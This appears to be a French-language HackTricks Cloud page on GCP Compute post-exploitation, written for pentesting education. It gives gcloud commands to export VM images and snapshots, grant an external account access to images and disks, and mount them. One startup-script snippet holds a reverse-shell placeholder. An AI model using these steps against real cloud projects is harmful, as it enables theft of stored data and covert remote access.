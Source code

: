 # GCP - Post-exploitation Compute

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

- Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
- Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
- Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
- **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Compute

Pour plus d'informations sur Compute et VPC (Réseau), consultez :

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exporter et inspecter des images localement

Cela permettrait à un attaquant d'**accéder aux données contenues dans des images existantes** ou de **créer de nouvelles images de VM en cours d'exécution** et d'accéder à leurs données sans avoir accès à la VM en cours d'exécution.

Il est possible d'exporter une image de VM vers un bucket, puis de la télécharger et de la monter localement avec la commande :

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Avant de réaliser cette action, l'attaquant pourrait avoir besoin de privilèges sur le bucket de stockage et bien sûr **de privilèges sur cloudbuild** car c'est le **service** qui sera chargé d'effectuer l'export. De plus, pour que cela fonctionne, le SA de codebuild et le SA de compute ont besoin d'autorisations privilégiées. Le SA de cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` a besoin de :

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Et le SA `<project-id>-compute@developer.gserviceaccount.com` a besoin de :

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exporter et inspecter des instantanés et des disques localement

Il n'est pas possible d'exporter directement des instantanés et des disques, mais il est possible de **transformer un instantané en disque, un disque en une image** et en suivant la **section précédente**, exporter cette image pour l'inspecter localement

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Examiner une image en créant une VM

Dans le but d'accéder aux **données stockées dans une image** ou à l'intérieur d'une **VM en cours d'exécution** à partir de laquelle un attaquant **a créé une image**, il est possible d'accorder un accès à un compte externe sur l'image :
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
et ensuite créer une nouvelle VM à partir de celui-ci :
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Si vous ne pouviez pas donner accès à votre compte externe sur l'image, vous pourriez lancer une VM en utilisant cette image dans le projet de la victime et **faire exécuter une coquille inversée par les métadonnées** pour accéder à l'image en ajoutant le paramètre :
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspecter un instantané/disque en le connectant à une VM

Dans le but d'accéder aux **données stockées dans un disque ou un instantané, vous pourriez transformer l'instantané en disque, un disque en une image et suivre les étapes précédentes.**

Ou vous pourriez **accorder l'accès à un compte externe** sur le disque (si le point de départ est un instantané, accordez l'accès à l'instantané ou créez un disque à partir de celui-ci) :
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Attacher le disque** à une instance :
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montez le disque à l'intérieur de la VM :

1.  **Connectez-vous en SSH à la VM** :

```sh
gcloud compute ssh [NOM_INSTANCE] --zone [ZONE]
```
2. **Identifiez le Disque** : Une fois à l'intérieur de la VM, identifiez le nouveau disque en listant les périphériques de disque. Vous le trouverez généralement sous la forme `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatez et Montez le Disque** (s'il s'agit d'un disque neuf ou brut) :
*   Créez un point de montage :

```sh
sudo mkdir -p /mnt/disks/[REP_MONTAGE]
```
*   Montez le disque :

```sh
sudo mount -o discard,defaults /dev/[DISPOSITIF_DISQUE] /mnt/disks/[REP_MONTAGE]
```

Si vous **ne pouvez pas donner accès à un projet externe** à l'instantané ou au disque, vous devrez peut-être **effectuer ces actions à l'intérieur d'une instance du même projet que l'instantané/le disque**.
